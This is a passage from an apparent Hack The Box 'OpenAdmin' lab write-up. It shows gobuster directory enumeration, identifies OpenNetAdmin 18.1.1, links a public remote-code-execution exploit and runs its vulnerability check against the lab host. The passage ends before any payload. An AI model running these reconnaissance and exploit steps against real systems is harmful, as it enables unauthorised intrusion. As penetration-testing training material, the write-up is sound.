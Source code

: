 ```bash
[+] Extensions:              txt,php,html,log
[+] Timeout:                 10s
===============================================================
2021/09/13 08:15:30 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 314] [--> http://openadmin.htb/music/]
/artwork              (Status: 301) [Size: 316] [--> http://openadmin.htb/artwork/]
/ona                  (Status: 301) [Size: 312] [--> http://openadmin.htb/ona/]
```

The most interesting page is ona:

![Untitled](/assets/images/2022-04-27-openadmin/Untitled.png)

It says that I'm not using the latest version, I'm using version 18.1.1. (In my eyes this is the latest version but the page does not think that. I can search for an exploit. I found an RCE exploit:

[GitHub - amriunix/ona-rce: OpenNetAdmin 18.1.1 - Remote Code Execution](https://github.com/amriunix/ona-rce)

# Exploitation

---

I downloaded the script and checked if the exploit would work:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ python3 ona-rce.py check http://openadmin.htb/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!
```
